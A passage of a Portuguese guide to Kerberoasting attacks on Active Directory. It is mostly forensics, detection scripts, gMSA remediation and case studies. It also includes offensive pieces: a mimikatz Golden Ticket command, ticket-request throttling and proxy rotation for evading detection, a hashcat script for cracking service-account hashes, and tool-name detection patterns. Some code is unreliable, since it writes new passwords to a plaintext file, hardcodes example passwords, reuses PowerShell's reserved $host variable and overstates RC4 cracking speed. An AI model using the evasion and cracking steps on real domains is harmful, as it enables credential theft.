# Agora pode ser kerberoasted por outros atacantes da mesma equipe
```

**Golden Ticket com Service Account:**
```cmd
# Se service account tem privilégios para criar Golden Tickets
mimikatz # kerberos::golden /user:Administrator /domain:empresa.local /sid:S-1-5-21-... /krbtgt:HASH /id:500
```

## 8.6 Evasão de Detecção

**Throttling de Requisições:**
```python
import time
for spn in spn_list:
    # Solicitar ticket
    request_ticket(spn)
    # Aguardar intervalo aleatório
    time.sleep(random.randint(300, 600))  # 5-10 minutos
```

**Time-based Attacks:**
- Realizar ataques durante horários de pico
- Misturar com tráfego legítimo
- Distribuir requisições por múltiplas contas

**Proxy/VPN Rotation:**
```bash
# Rotacionar IPs usando proxychains
proxychains python GetUserSPNs.py -request DOMAIN/user:pass
```

---

# 9. Análise Forense e Resposta a Incidentes

## 9.1 Identificação de Comprometimento

**Indicadores de Kerberoasting Bem-Sucedido:**

1. **Event Logs:**
```powershell
# Identificar padrões de múltiplas requisições TGS
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Where-Object {$_.TimeCreated -gt (Get-Date).AddHours(-24)} |
  Group-Object {$_.Properties[0].Value} |
  Where-Object {$_.Count -gt 15} |
  Select-Object Name, Count |
  Sort-Object Count -Descending
```

2. **Tickets em Cache:**
```cmd
# Verificar tickets Kerberos em sistema comprometido
klist

# Procurar por múltiplos tickets de serviço
klist | findstr /i "Service"
```

3. **Análise de Memória:**
```powershell
# Usando Volatility para análise de dump de memória
volatility -f memory.dmp --profile=Win10x64 kerberos
```

## 9.2 Coleta de Evidências

**Logs críticos para preservar:**
```powershell
# Exportar Security logs
wevtutil epl Security C:\Forensics\Security_$(Get-Date -Format yyyyMMdd_HHmmss).evtx

# Exportar com filtro específico
wevtutil qe Security /q:"*[System[(EventID=4769)]]" /f:text > C:\Forensics\4769_events.txt

# PowerShell history
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Artifacts de ferramentas:**
```powershell
# Procurar por ferramentas conhecidas
Get-ChildItem -Path C:\ -Recurse -Include "*rubeus*","*mimikatz*","*kerberoast*","*invoke-kerberoast*" -ErrorAction SilentlyContinue

# Verificar execução recente
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} |
  Where-Object {$_.Message -match "Invoke-Kerberoast|Rubeus|GetUserSPNs"}
```

**Network traffic:**
```bash
# Analisar pcap para Kerberos traffic
tshark -r capture.pcap -Y "kerberos.msg_type == 12 or kerberos.msg_type == 13" -T fields -e frame.time -e ip.src -e ip.dst -e kerberos.SNameString
```

## 9.3 Timeline Reconstruction

```powershell
# Reconstruir timeline de ataque
$Events = @()

# 4768: TGT Request (autenticação inicial)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4768} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'TGT Request'}}, @{N='User';E={$_.Properties[0].Value}}

# 4769: TGS Request (kerberoasting)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'TGS Request'}}, @{N='User';E={$_.Properties[0].Value}}, @{N='Service';E={$_.Properties[1].Value}}

# 4624: Successful Logon (pós-comprometimento)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624; LogonType=3} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'Network Logon'}}, @{N='User';E={$_.Properties[5].Value}}

$Events | Sort-Object TimeCreated | Export-Csv C:\Forensics\Timeline.csv -NoTypeInformation
```

## 9.4 Contenção

**Ações imediatas:**

1. **Reset de senha da conta comprometida:**
```powershell
Set-ADAccountPassword -Identity "svc-sql-compromised" -Reset -NewPassword (ConvertTo-SecureString "TempC0mplex!Pass#2024xyz" -AsPlainText -Force)

# Forçar logoff de todas as sessões
Invoke-Command -ComputerName (Get-ADComputer -Filter *).Name -ScriptBlock {
    query user | Select-String "svc-sql-compromised" | ForEach-Object {
        logoff ($_ -split '\s+')[2]
    }
}
```

2. **Revogar tickets Kerberos:**
```powershell
# Incrementar msDS-KeyVersionNumber força invalidação de tickets
Set-ADUser -Identity "svc-sql-compromised" -Replace @{"msDS-KeyVersionNumber"=((Get-ADUser "svc-sql-compromised" -Properties "msDS-KeyVersionNumber")."msDS-KeyVersionNumber" + 1)}
```

3. **Bloquear acesso de IPs suspeitos:**
```powershell
# Adicionar regra de firewall
New-NetFirewallRule -DisplayName "Block Malicious IP" -Direction Inbound -RemoteAddress 192.168.1.100 -Action Block
```

4. **Isolar sistemas comprometidos:**
```powershell
# Desabilitar interfaces de rede remotamente
Invoke-Command -ComputerName COMPROMISED-HOST -ScriptBlock {
    Get-NetAdapter | Disable-NetAdapter -Confirm:$false
}
```

## 9.5 Erradicação

**Remover persistência:**
```powershell
# Procurar por scheduled tasks maliciosas
Get-ScheduledTask | Where-Object {$_.Actions.Execute -match "powershell|cmd|wscript"} |
  Where-Object {$_.Author -notmatch "Microsoft|Administrator"}

# Procurar por serviços suspeitos
Get-Service | Where-Object {$_.DisplayName -match "Update|Updater|Service"} |
  Where-Object {$_.ServiceName -notmatch "^wu|^Windows"}

# Verificar startup items
Get-CimInstance Win32_StartupCommand | Select-Object Name, Command, Location, User
```

**Verificar alterações em AD:**
```powershell
# Verificar SPNs adicionados recentemente
Get-ADObject -Filter {ServicePrincipalName -like "*"} -Properties whenChanged, ServicePrincipalName |
  Where-Object {$_.whenChanged -gt (Get-Date).AddDays(-7)} |
  Select-Object Name, ServicePrincipalName, whenChanged

# Verificar mudanças de grupo
Get-ADGroup "Domain Admins" -Properties whenChanged, member |
  Select-Object whenChanged, @{N='Members';E={$_.member}}
```

## 9.6 Recuperação

**Plano de recuperação:**

1. **Reset massivo de senhas de service accounts:**
```powershell
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*"}
foreach ($account in $ServiceAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(32,10)
    Set-ADAccountPassword -Identity $account -Reset -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force)
    
    # Documentar em vault seguro
    "$($account.Name),$newPass" | Out-File C:\Secure\PasswordResets.txt -Append
}
```

2. **Atualizar configurações de serviços:**
```powershell
# Exemplo para SQL Server (adaptar conforme necessário)
$service = Get-Service MSSQLSERVER
Stop-Service $service
$newCred = Get-Credential "DOMAIN\svc-sql"
$service | Set-Service -Credential $newCred
Start-Service $service
```

3. **Reforçar monitoramento:**
```powershell
# Criar alerta específico pós-incidente
$Action = New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument '-Command "Get-WinEvent -FilterHashtable @{LogName=\"Security\"; ID=4769; StartTime=(Get-Date).AddMinutes(-5)} | Where-Object {\$_.Properties[0].Value -match \"svc-\"} | Export-Csv C:\Monitoring\Kerberos_$(Get-Date -Format yyyyMMdd).csv -Append"'
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5)
Register-ScheduledTask -TaskName "Enhanced Kerberos Monitoring" -Action $Action -Trigger $Trigger
```

## 9.7 Lessons Learned

**Documentação pós-incidente:**
```markdown
# Incident Report: Kerberoasting Attack

# Executive Summary
- Date: [data]
- Duration: [tempo de comprometimento]
- Accounts affected: [número]
- Impact: [descrição]

# Attack Vector
- Initial access: [como]
- Propagation: [lateral movement]
- Exfiltration: [dados comprometidos]

# Root Cause
- Weak passwords on service accounts
- Lack of monitoring for Event ID 4769
- RC4 encryption enabled

# Remediation Actions
1. [ação 1]
2. [ação 2]
...

# Preventive Measures
- Implement gMSA
- Disable RC4
- Enhanced monitoring
- Security awareness training

# Cost Analysis
- Direct costs: $X
- Downtime: Y hours
- Reputation impact: [avaliação]
```

---

# 10. Ferramentas e Scripts Úteis

## 10.1 Scripts de Detecção

**PowerShell - Auditoria Completa de SPNs:**
```powershell
function Get-KerberoastableAccounts {
    [CmdletBinding()]
    param(
        [Parameter()][int]$PasswordAgeDays = 365,
        [Parameter()][int]$MinPasswordLength = 25
    )
    
    $KerberoastableUsers = Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties `
        ServicePrincipalName, PasswordLastSet, PasswordNeverExpires, Enabled, `
        MemberOf, Description, Created, LastLogonDate, msDS-SupportedEncryptionTypes
    
    $Results = @()
    
    foreach ($user in $KerberoastableUsers) {
        $PasswordAge = (New-TimeSpan -Start $user.PasswordLastSet -End (Get-Date)).Days
        $IsHighValue = $user.MemberOf -match "Admin|Privileged"
        
        $EncTypes = $user.'msDS-SupportedEncryptionTypes'
        $UsesRC4 = ($EncTypes -band 0x04) -or ($EncTypes -eq $null)
        
        $Risk = "Low"
        if ($PasswordAge -gt $PasswordAgeDays -and $UsesRC4) { $Risk = "Critical" }
        elseif ($PasswordAge -gt $PasswordAgeDays -or $UsesRC4) { $Risk = "High" }
        elseif ($IsHighValue) { $Risk = "Medium" }
        
        $Results += [PSCustomObject]@{
            SamAccountName = $user.SamAccountName
            SPNs = ($user.ServicePrincipalName -join "; ")
            PasswordAge = $PasswordAge
            PasswordNeverExpires = $user.PasswordNeverExpires
            UsesRC4 = $UsesRC4
            IsHighValue = $IsHighValue
            Enabled = $user.Enabled
            LastLogon = $user.LastLogonDate
            RiskLevel = $Risk
        }
    }
    
    return $Results | Sort-Object RiskLevel -Descending
}

# Executar
Get-KerberoastableAccounts | Export-Csv C:\Audit\KerberoastRisk.csv -NoTypeInformation
Get-KerberoastableAccounts | Where-Object {$_.RiskLevel -eq "Critical"} | Format-Table -AutoSize
```

**Python - Monitor em Tempo Real:**
```python
#!/usr/bin/env python3
import win32evtlog
import win32evtlogutil
import win32con
from collections import defaultdict
from datetime import datetime, timedelta
import time

def monitor_kerberoasting(threshold=10, time_window=5):
    """
    Monitora Event ID 4769 para detectar Kerberoasting
    threshold: número de requisições TGS únicas
    time_window: janela de tempo em minutos
    """
    server = 'localhost'
    logtype = 'Security'
    hand = win32evtlog.OpenEventLog(server, logtype)
    flags = win32evtlog.EVENTLOG_BACKWARDS_READ | win32evtlog.EVENTLOG_SEQUENTIAL_READ
    
    user_requests = defaultdict(lambda: {'count': 0, 'services': set(), 'first_seen': None})
    
    print(f"[*] Monitoring for Kerberoasting (threshold: {threshold} requests in {time_window} min)")
    
    while True:
        events = win32evtlog.ReadEventLog(hand, flags, 0)
        
        for event in events:
            if event.EventID == 4769:
                # Extrair dados do evento
                event_time = event.TimeGenerated
                data = win32evtlogutil.SafeFormatMessage(event, logtype)
                
                # Parse dos campos (adaptação necessária)
                # account_name = ...
                # service_name = ...
                
                # Lógica de detecção
                # if user_requests[account_name]['count'] > threshold:
                #     alert(account_name, user_requests[account_name])
        
        time.sleep(10)

if __name__ == "__main__":
    monitor_kerberoasting()
```

## 10.2 Scripts de Remediação

**PowerShell - Implementação em Massa de gMSA:**
```powershell
function Convert-ToGMSA {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory)][string]$ServiceAccount,
        [Parameter(Mandatory)][string[]]$AllowedHosts
    )
    
    # Obter informações da conta atual
    $oldAccount = Get-ADUser $ServiceAccount -Properties ServicePrincipalName, MemberOf
    
    # Criar grupo de hosts permitidos
    $groupName = "gMSA-$ServiceAccount-Hosts"
    New-ADGroup -Name $groupName -GroupScope DomainLocal -GroupCategory Security
    
    foreach ($host in $AllowedHosts) {
        $computer = Get-ADComputer $host
        Add-ADGroupMember -Identity $groupName -Members $computer
    }
    
    # Criar gMSA
    $gmsaName = "gMSA-$ServiceAccount"
    New-ADServiceAccount -Name $gmsaName `
        -DNSHostName "$gmsaName.$env:USERDNSDOMAIN" `
        -ServicePrincipalNames $oldAccount.ServicePrincipalName `
        -PrincipalsAllowedToRetrieveManagedPassword $groupName
    
    Write-Host "[+] gMSA $gmsaName created successfully"
    Write-Host "[!] Manual steps required:"
    Write-Host "    1. Install gMSA on target hosts: Install-ADServiceAccount $gmsaName"
    Write-Host "    2. Update service configuration to use $gmsaName"
    Write-Host "    3. Test service functionality"
    Write-Host "    4. Disable old account: Disable-ADAccount $ServiceAccount"
}

# Exemplo de uso
Convert-ToGMSA -ServiceAccount "svc-sql" -AllowedHosts @("SQL01", "SQL02")
```

**Bash - Cracking Automatizado com Hashcat:**
```bash
#!/bin/bash
# kerberoast-crack.sh

HASH_FILE=$1
WORDLIST="/usr/share/wordlists/rockyou.txt"
OUTPUT_DIR="./cracked"
RULES="/usr/share/hashcat/rules/best64.rule"

mkdir -p $OUTPUT_DIR

# Identificar tipo de hash
echo "[*] Identifying hash types..."
hashcat --identify $HASH_FILE

# Extrair RC4 hashes (mais fáceis)
grep '\$krb5tgs\$23' $HASH_FILE > ${OUTPUT_DIR}/rc4_hashes.txt

# Extrair AES hashes
grep -E '\$krb5tgs\$(17|18)' $HASH_FILE > ${OUTPUT_DIR}/aes_hashes.txt

# Crack RC4 com wordlist
echo "[*] Cracking RC4 hashes with wordlist..."
hashcat -m 13100 -a 0 ${OUTPUT_DIR}/rc4_hashes.txt $WORDLIST -o ${OUTPUT_DIR}/cracked_rc4.txt

# Crack RC4 com regras
echo "[*] Cracking RC4 hashes with rules..."
hashcat -m 13100 -a 0 ${OUTPUT_DIR}/rc4_hashes.txt $WORDLIST -r $RULES -o ${OUTPUT_DIR}/cracked_rc4_rules.txt

# Crack AES256 (mais lento)
echo "[*] Cracking AES256 hashes (this will take longer)..."
hashcat -m 19700 -a 0 ${OUTPUT_DIR}/aes_hashes.txt $WORDLIST -o ${OUTPUT_DIR}/cracked_aes.txt

# Resumo
echo "[+] Cracking complete! Results:"
hashcat -m 13100 ${OUTPUT_DIR}/rc4_hashes.txt --show
hashcat -m 19700 ${OUTPUT_DIR}/aes_hashes.txt --show
```

---

# 11. Conclusão

O Kerberoasting representa uma ameaça significativa e persistente para ambientes Active Directory, explorando características fundamentais do protocolo Kerberos que não podem ser facilmente alteradas sem quebrar a compatibilidade. A técnica é particularmente perigosa porque:

1. **Requer apenas privilégios mínimos** - qualquer usuário de domínio pode executar
2. **Difícil de detectar** - comportamento pode parecer legítimo
3. **Ataque offline** - cracking ocorre fora da rede corporativa
4. **Alta taxa de sucesso** - muitas organizações têm service accounts com senhas fracas

## 11.1 Principais Takeaways

**Para Defensores:**
- Implementar gMSA sempre que possível
- Forçar senhas longas (30+ caracteres) em service accounts
- Desabilitar RC4 e forçar AES256
- Monitorar Event ID 4769 com alertas baseados em comportamento
- Aplicar princípio de least privilege rigorosamente
- Realizar auditorias regulares de SPNs e service accounts
- Implementar honey accounts para detecção precoce

**Para Auditores e Red Teams:**
- Kerberoasting deve ser parte de toda avaliação de segurança AD
- Combinar com outras técnicas (AS-REP Roasting, password spraying)
- Focar em contas de alto valor e lateral movement paths
- Documentar achados com evidências e impacto de negócio

**Para Gestores de Segurança:**
- Investir em PAM (Privileged Access Management)
- Priorizar migração para gMSA em roadmap de segurança
- Implementar SIEM com casos de uso específicos para Kerberoasting
- Treinar equipes em detecção e resposta
- Considerar arquiteturas modernas (Zero Trust, Red Forest)

## 11.2 O Futuro da Defesa contra Kerberoasting

**Tendências Emergentes:**

1. **Machine Learning para Detecção:**
   - Análise comportamental de padrões de requisição TGS
   - Detecção de anomalias em tempo real
   - Redução de falsos positivos através de baseline automatizado

2. **Autenticação sem Senha:**
   - Windows Hello for Business
   - FIDO2 tokens
   - Certificate-based authentication
   - Reduz dependência de senhas fracas

3. **Kerberos Armoring:**
   - FAST (Flexible Authentication Secure Tunneling)
   - Proteção adicional para tráfego Kerberos
   - Dificulta ataques man-in-the-middle

4. **Cloud-Native Security:**
   - Azure AD com Conditional Access
   - Proteção avançada contra ataques de identidade
   - Integração com threat intelligence

## 11.3 Recursos Adicionais

**Documentação Oficial:**
- Microsoft: "Kerberos Authentication Overview" - https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview
- MITRE ATT&CK: T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting
- NIST SP 800-63B: Digital Identity Guidelines

**Ferramentas:**
- Rubeus: https://github.com/GhostPack/Rubeus
- Impacket: https://github.com/SecureAuthCorp/impacket
- PowerView: https://github.com/PowerShellMafia/PowerSploit
- BloodHound: https://github.com/BloodHoundAD/BloodHound
- Hashcat: https://hashcat.net/hashcat/

**Papers e Apresentações:**
- Tim Medin - "Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades" (DerbyCon 2014)
- Sean Metcalf - "Kerberos & Attacks 101" (Black Hat USA)
- Will Schroeder & Matt Graeber - "An ACE Up the Sleeve" (Black Hat USA 2017)

**Cursos e Certificações:**
- SANS SEC560: Network Penetration Testing and Ethical Hacking
- Offensive Security OSEP: Experienced Penetration Tester
- GIAC GPEN: Penetration Tester Certification
- eLearnSecurity eCPTX: Certified Penetration Tester eXtreme

## 11.4 Matriz de Decisão para Priorização

| Cenário | Risco | Prioridade | Ação Recomendada |
|---------|-------|------------|------------------|
| Service account em Domain Admins com senha antiga (>1 ano) e RC4 | **CRÍTICO** | P0 (Imediato) | Reset senha imediato, remover de DA, migrar para gMSA, habilitar AES |
| Service account com privilégios elevados, senha <1 ano, RC4 | **ALTO** | P1 (1-7 dias) | Trocar senha, forçar AES, avaliar gMSA, reduzir privilégios |
| Service account regular com senha complexa mas RC4 | **MÉDIO** | P2 (1-30 dias) | Forçar AES, aumentar complexidade, monitorar |
| Service account com gMSA e AES256 | **BAIXO** | P3 (Manutenção) | Revisar privilégios, manter monitoramento |

## 11.5 Checklist de Auditoria Kerberoasting

**Identificação:**
- [ ] Enumerar todas as contas com SPNs no domínio
- [ ] Identificar contas com RC4 habilitado
- [ ] Mapear service accounts em grupos privilegiados
- [ ] Verificar idade das senhas (>90 dias = crítico)
- [ ] Identificar contas com PasswordNeverExpires = true
- [ ] Listar SPNs duplicados ou órfãos

**Avaliação de Risco:**
- [ ] Classificar contas por criticidade (Tier 0, 1, 2)
- [ ] Avaliar superfície de ataque (quantas contas kerberoastable?)
- [ ] Testar cracking de hashes em ambiente controlado
- [ ] Identificar caminhos de escalação de privilégios via BloodHound
- [ ] Documentar contas que não podem migrar para gMSA

**Remediação:**
- [ ] Criar plano de migração para gMSA (timeline, responsáveis)
- [ ] Implementar senhas complexas (30+ chars) em contas não-gMSA
- [ ] Desabilitar RC4 globalmente (ou por OU específica)
- [ ] Remover privilégios excessivos de service accounts
- [ ] Implementar rotação automática de senhas
- [ ] Criar honey accounts para detecção

**Monitoramento:**
- [ ] Habilitar auditoria de Event ID 4769, 4768
- [ ] Configurar alertas para múltiplas requisições TGS (>10 em 5 min)
- [ ] Alertar sobre requisições RC4 se domínio é AES-only
- [ ] Integrar logs com SIEM
- [ ] Criar dashboard de monitoramento contínuo
- [ ] Estabelecer baseline de comportamento normal

**Testes:**
- [ ] Realizar purple team exercise focado em Kerberoasting
- [ ] Validar detecção com ferramenta (Rubeus, Impacket)
- [ ] Testar tempo de resposta da equipe SOC
- [ ] Verificar efetividade de alertas
- [ ] Documentar falsos positivos e ajustar regras

## 11.6 Cálculo de Tempo de Cracking

Para entender a urgência da remediação, é útil estimar o tempo necessário para quebrar senhas:

**RC4-HMAC (mais vulnerável):**
- GPU: NVIDIA RTX 4090 (~450 GH/s para MD4/NTLM)
- Senha 8 caracteres (complexa): segundos a minutos
- Senha 10 caracteres (complexa): horas a dias
- Senha 15 caracteres (complexa): anos
- Senha 25+ caracteres: praticamente impossível com força bruta

**AES256 (mais seguro):**
- Significativamente mais lento devido a PBKDF2
- Senha 8 caracteres: minutos a horas
- Senha 10 caracteres: dias a semanas
- Senha 15+ caracteres: anos a décadas

**Fórmula Estimativa:**
```
Tempo = (Keyspace / Hash Rate) / 2  # /2 assume encontrar na metade em média

Keyspace exemplos:
- Letras minúsculas (26^n)
- Letras maiúsculas + minúsculas (52^n)
- Alfanumérico (62^n)
- Alfanumérico + especiais (~95^n)

Exemplo: 8 caracteres alfanuméricos
62^8 = 218,340,105,584,896 combinações
RTX 4090: ~450 GH/s
Tempo = 218,340,105,584,896 / (450,000,000,000 * 2) ≈ 243 segundos ≈ 4 minutos
```

**Takeaway:** Senhas de service accounts devem ter **mínimo 25 caracteres** para resistir a ataques com GPUs modernas.

## 11.7 Impacto Organizacional

**Custos de um Ataque Bem-Sucedido:**

1. **Diretos:**
   - Resposta a incidentes (time SOC, consultores externos)
   - Forense e investigação
   - Remediação e recuperação
   - Possíveis resgates em casos de ransomware subsequente

2. **Indiretos:**
   - Downtime de sistemas críticos
   - Perda de produtividade
   - Danos à reputação
   - Perda de confiança de clientes
   - Multas regulatórias (LGPD, GDPR, etc.)
   - Custos legais

3. **Estratégicos:**
   - Perda de vantagem competitiva
   - Exposição de propriedade intelectual
   - Comprometimento de estratégias de negócio

**ROI da Prevenção:**
- Investimento em gMSA: baixo (custo de implementação e treinamento)
- Investimento em monitoramento: médio (SIEM, ferramentas, pessoal)
- Benefício: evitar custos massivos de incidente (10-100x o investimento)

---

# 12. Casos de Uso Práticos

## 12.1 Cenário 1: Empresa de Médio Porte (500-2000 funcionários)

**Situação Inicial:**
- 45 service accounts com SPNs
- 30% usando RC4
- 60% com senhas >2 anos
- 5 service accounts em Domain Admins
- Sem monitoramento de Kerberos
- Orçamento limitado

**Plano de Remediação (90 dias):**

**Fase 1 (0-30 dias) - Vitórias Rápidas:**
```powershell
# Dia 1: Auditoria completa
Get-KerberoastableAccounts | Export-Csv audit.csv

# Dia 2-3: Ações críticas
# Remover service accounts de Domain Admins
$CriticalAccounts = Import-Csv audit.csv | Where-Object {$_.IsHighValue -eq $true}
foreach ($account in $CriticalAccounts) {
    Remove-ADGroupMember -Identity "Domain Admins" -Members $account.SamAccountName -Confirm:$false
}

# Dia 4-7: Reset de senhas críticas
foreach ($account in $CriticalAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(30,10)
    Set-ADAccountPassword -Identity $account.SamAccountName -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force) -Reset
    # Armazenar em vault
}

# Dia 8-14: Implementar monitoramento básico
# Habilitar auditoria
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable

# Dia 15-30: Honey accounts
New-ADUser -Name "svc-backup-sql" -SamAccountName "svc-backup-sql" `
  -AccountPassword (ConvertTo-SecureString "SuperComplexPassword!2024#Impossible" -AsPlainText -Force) `
  -Enabled $true
Set-ADUser -Identity "svc-backup-sql" -ServicePrincipalNames @{Add="MSSQLSvc/honeypot-db.empresa.local:1433"}
```

**Fase 2 (30-60 dias) - Fortalecimento:**
- Desabilitar RC4 em test OU
- Implementar FGPP para service accounts
- Migrar 5 service accounts críticos para gMSA
- Configurar alertas básicos no SIEM

**Fase 3 (60-90 dias) - Consolidação:**
- Desabilitar RC4 globalmente
- Migrar mais 10 accounts para gMSA
- Purple team exercise
- Documentação e treinamento

**Resultado Esperado:**
- Redução de 80% no risco de Kerberoasting
- Tempo médio de detecção: <5 minutos
- 15 contas migradas para gMSA
- 100% das contas com senhas 25+ caracteres

## 12.2 Cenário 2: Instituição Financeira (Alta Segurança)

**Situação Inicial:**
- 200+ service accounts
- Compliance rigoroso (PCI-DSS, BACEN)
- Ambiente complexo com múltiplos domínios
- Já possui SIEM e equipe SOC madura

**Abordagem Avançada:**

**1. Análise de Risco Baseada em Dados:**
```python
# Script de scoring de risco
def calculate_risk_score(account):
    score = 0
    
    # Idade da senha
    if account['PasswordAge'] > 365:
        score += 40
    elif account['PasswordAge'] > 180:
        score += 20
    
    # Encryption
    if account['UsesRC4']:
        score += 30
    
    # Privilégios
    if 'Domain Admins' in account['Groups']:
        score += 30
    elif any(admin in account['Groups'] for admin in ['Enterprise Admins', 'Schema Admins']):
        score += 25
    elif any(priv in account['Groups'] for priv in ['Account Operators', 'Backup Operators']):
        score += 15
    
    # Complexity
    if account['PasswordLength'] < 15:
        score += 20
    elif account['PasswordLength'] < 25:
        score += 10
    
    # Uso
    if not account['LastLogon'] or (datetime.now() - account['LastLogon']).days > 90:
        score += 15  # Conta não usada = maior risco se comprometida
    
    return min(score, 100)  # Cap at 100
```

**2. Implementação de PAM (Privileged Access Management):**
- CyberArk, BeyondTrust ou similar
- Check-out de senhas com aprovação
- Sessão gravadas e monitoradas
- Rotação automática pós-uso

**3. Detecção Avançada com ML:**
```python
# Pseudo-código para detecção ML
from sklearn.ensemble import IsolationForest

# Features para modelo
features = [
    'tgs_requests_per_minute',
    'unique_spns_requested',
    'time_between_requests',
    'historical_behavior_deviation',
    'source_ip_reputation',
    'user_typical_activity_score'
]

# Treinar modelo com dados históricos normais
model = IsolationForest(contamination=0.01)
model.fit(normal_behavior_data)

# Detectar anomalias em tempo real
def detect_kerberoasting_ml(event):
    features_vector = extract_features(event)
    anomaly_score = model.decision_function([features_vector])
    
    if anomaly_score < threshold:
        alert_soc(event, anomaly_score)
```

**4. Red Forest Architecture:**
- Tier 0: Isolated forest para admin accounts
- Tier 1: Production servers
- Tier 2: Workstations
- No trust entre tiers (lateral movement prevention)

**5. Métricas e KPIs:**
- Mean Time to Detect (MTTD): <2 minutos
- Mean Time to Respond (MTTR): <15 minutos
- False Positive Rate: <5%
- Percentage of gMSA adoption: >80%
- Service accounts with RC4: 0%

## 12.3 Cenário 3: Startup com Active Directory Novo

**Situação Inicial:**
- AD recém-implementado
- 10 service accounts
- Equipe pequena de TI
- Budget limitado mas flexível para investir em segurança desde o início

**Estratégia "Security by Design":**

**1. Configuração Inicial Segura:**
```powershell
# Desabilitar RC4 desde o início
Set-ADDomainMode -Identity empresa.local -DomainMode Windows2016Domain
Set-ADForestMode -Identity empresa.local -ForestMode Windows2016Forest

# GPO: Disable RC4
New-GPO -Name "Disable RC4 Kerberos" | New-GPLink -Target "DC=empresa,DC=local"
Set-GPRegistryValue -Name "Disable RC4 Kerberos" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\Parameters" -ValueName "SupportedEncryptionTypes" -Type DWord -Value 24  # AES128 + AES256

# Implementar FGPP desde o início
New-ADFineGrainedPasswordPolicy -Name "ServiceAccountPolicy" `
  -Precedence 10 -MinPasswordLength 30 -MaxPasswordAge 90.00:00:00
```

**2. gMSA por Padrão:**
```powershell
# KDS Root Key
Add-KdsRootKey -EffectiveTime ((Get-Date).AddHours(-10))

# Template de criação de serviços
function New-SecureServiceAccount {
    param(
        [string]$ServiceName,
        [string]$Server,
        [string]$SPN
    )
    
    $gmsaName = "gMSA-$ServiceName"
    
    # Criar grupo de hosts
    $groupName = "$gmsaName-Hosts"
    New-ADGroup -Name $groupName -GroupScope DomainLocal
    Add-ADGroupMember -Identity $groupName -Members (Get-ADComputer $Server)
    
    # Criar gMSA
    New-ADServiceAccount -Name $gmsaName `
        -DNSHostName "$gmsaName.empresa.local" `
        -ServicePrincipalNames $SPN `
        -PrincipalsAllowedToRetrieveManagedPassword $groupName
    
    Write-Host "[+] Created $gmsaName - install with: Install-ADServiceAccount $gmsaName"
}
```

**3. Monitoramento desde o Dia 1:**
```powershell
# Configurar Windows Event Forwarding
wecutil qc

# Script de monitoramento simples (substituir por SIEM quando orçamento permitir)
$Action = {
    $Events = Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769; StartTime=(Get-Date).AddMinutes(-5)}
    $Grouped = $Events | Group-Object {$_.Properties[0].Value}
    $Suspicious = $Grouped | Where-Object {$_.Count -gt 5}
    
    if ($Suspicious) {
        Send-MailMessage -To "security@empresa.local" -From "alertas@empresa.local" `
            -Subject "Alerta: Possível Kerberoasting" `
            -Body ($Suspicious | Out-String) -SmtpServer "smtp.empresa.local"
    }
}

Register-ScheduledTask -TaskName "Monitor-Kerberoasting" `
    -Action (New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument "-Command & {$($Action)}") `
    -Trigger (New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5))
```

**4. Documentação e Processos:**
```markdown
# Procedimento: Criação de Service Account

# Pré-requisitos
- Aprovação de gestor
- Justificativa documentada
- Princípio de least privilege aplicado

# Passos
1. Avaliar se gMSA é aplicável (sempre preferível)
2. Se gMSA:
   - Usar template: New-SecureServiceAccount
   - Documentar hosts autorizados
3. Se não gMSA (exceção):
   - Gerar senha de 30+ caracteres
   - Aplicar FGPP ServiceAccountPolicy
   - Forçar AES256
   - Armazenar em cofre (Azure Key Vault)
   - Documentar por que gMSA não é viável

# Auditoria
- Revisar trimestralmente
- Reavaliar necessidade de privilégios
- Verificar possibilidade de migração para gMSA
```

**Resultado:**
- Zero debt técnico de segurança
- 100% das contas usam gMSA ou senhas 30+ com AES256
- Monitoramento desde o início
- Cultura de segurança estabelecida

---

# 13. Referências e Bibliografia

## 13.1 Papers Acadêmicos

1. Neuman, B. C., & Ts'o, T. (1994). **Kerberos: An authentication service for computer networks**. IEEE Communications magazine, 32(9), 33-38.

2. Steiner, J. G., Neuman, B. C., & Schiller, J. I. (1988). **Kerberos: An authentication service for open network systems**. In Proceedings of the Winter 1988 Usenix Conference (pp. 191-202).

3. Perlman, R., & Kaufman, C. (2002). **Analysis of the IPsec key exchange standard**. In Proceedings of the 10th International Workshop on Security Protocols (pp. 143-156).

## 13.2 Documentação Técnica Microsoft

1. Microsoft. (2023). **How the Kerberos Version 5 Authentication Protocol Works**. Microsoft TechNet Library.

2. Microsoft. (2023). **Group Managed Service Accounts Overview**. Windows Server Documentation.

3. Microsoft. (2023). **Advanced Audit Policy Configuration**. Windows Security Documentation.

4. Microsoft. (2023). **Kerberos Protocol Extensions**. MS-KILE Protocol Specification.

## 13.3 Frameworks e Standards

1. MITRE ATT&CK. **T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting**. https://attack.mitre.org/techniques/T1558/003/

